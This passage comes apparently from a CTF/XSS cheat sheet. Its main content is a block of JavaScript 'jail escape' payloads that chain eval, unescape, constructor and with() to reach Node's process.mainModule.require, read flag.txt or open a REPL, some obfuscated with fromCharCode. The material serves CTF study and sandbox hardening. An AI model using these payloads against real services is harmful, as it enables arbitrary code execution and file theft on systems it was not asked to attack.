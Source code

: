 For example in [**this writeup**](https://gitea.nitowa.xyz/nitowa/PlaidCTF-YACA), this was used to **scape a JSON string** inside a script and execute arbitrary code.

### Chrome Cache to XSS

{% content-ref url="chrome-cache-to-xss.md" %}
[chrome-cache-to-xss.md](chrome-cache-to-xss.md)
{% endcontent-ref %}

### XS Jails Escape

If you are only have a limited set of chars to use, check these other valid solutions for XSJail problems:

```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
  // Just replace console.log(1) to the real code, the code we want to run is:
  //return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))

  //Final solution
with(
  /with(String)
    with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
      with(mainModule)
        with(require(k))
          return(String(readFileSync(n)))
  /)
with(this)
  with(constructor)
    constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```

If **everything is undefined** before executing untrusted code (like in [**this writeup**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/#miscx2fundefined55-solves)) it's possible to generate useful objects "out of nothing" to abuse the execution of arbitrary untrusted code:

* Using import()
